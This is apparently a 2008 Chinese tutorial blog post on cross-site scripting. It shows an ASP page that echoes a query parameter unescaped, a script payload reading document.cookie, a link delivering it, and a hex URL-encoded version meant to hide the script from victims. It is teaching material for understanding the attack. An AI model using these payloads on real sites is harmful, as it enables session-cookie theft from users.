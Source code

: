 ```yaml
---
title: (原创)攻击方式学习之(1) - 跨站式脚本(Cross-Site Scripting)
layout: post
category: Programming
date: 2008-09-06 10:10:00
---
```


<span style="font-size: 14px;"><span style="color: red;">声明：本文仅供学习研究之用，对于本文提到的某些网站的XSS漏洞，请读者发扬高尚的人道主义精神不要去危害他人，同时希望相应的网站能够尽快修补XSS漏洞。</span></span>

### 简介

XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。

使用过ASP的同学一定见过这样的代码： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #ffffff;">Hello</span><span style="color: #ffffff;">,</span> <span style="color: #ffffff;">&amp;</span><span style="color: #ffffff;">nbsp</span><span style="color: #ffffff;">;</span>

<span style="color: #ffffff;">&lt;%</span>

<span style="color: #ffffff;">Response</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">Write</span><span style="color: #ffffff;">(</span><span style="color: #ffffff;">Request</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">Querystring</span><span style="color: #ffffff;">(</span><span style="color: #0086d2;">"name"</span><span style="color: #ffffff;">))</span>

<span style="color: #ffffff;">%&gt;</span></div>

假如我传入的name的值为： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #ffffff;">&lt;</span><span style="color: #ffffff;">script</span><span style="color: #ffffff;">&gt;</span><span style="color: #ffffff;">x</span><span style="color: #ffffff;">=</span><span style="color: #ffffff;">document</span><span style="color: #ffffff;">.</span><span style="color: #ff0086; font-weight: bold;">cookie</span><span style="color: #ffffff;">;</span><span style="color: #ffffff;">alert</span><span style="color: #ffffff;">(</span><span style="color: #ffffff;">x</span><span style="color: #ffffff;">);&lt;/</span><span style="color: #ffffff;">script</span><span style="color: #ffffff;">&gt;</span></div>

这样就可以直接盗取用户的cookie。所以我就可以发送一条链接地址让别人去点： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">
http://www.xxx.com/reg.asp?name=&lt;script&gt;x=document.cookie;alert(x);&lt;/script&gt;
</div>

当然这样做没有一点隐蔽性，虽然前面的xxx.com瞒过了少数人，但大多数人可以辨认出后面的javascript代码，所以，我只需要将后面的javascript代码转换成URL的16进制，如： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">http://www.xxx.com/reg.asp?name=%3C%73%63%72%69%70%74%3E%78%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%61%6C%65%72%74%28%78%29%3B%3C%2F%73%63%72%69%70%74%3E</div>
